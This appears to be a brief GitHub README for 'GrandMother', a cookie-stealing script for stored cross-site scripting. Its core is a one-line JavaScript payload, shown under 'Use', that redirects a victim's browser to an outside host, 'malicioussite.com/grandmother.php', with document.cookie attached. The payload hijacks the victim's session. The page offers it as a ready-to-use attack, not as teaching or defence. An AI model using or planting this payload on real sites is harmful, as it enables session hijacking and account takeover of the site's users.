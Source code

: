 # GrandMother
<b>Session hijacking script from Cross-Site Scripting (XSS) Stored.</b>
# Use:
<code><script>location.href="http://malicioussite.com/grandmother.php?cookie="+document.cookie</script></code>
# Contact:
- Twitter: @samueltux
- E-mail: 0x53oficial@gmail.com
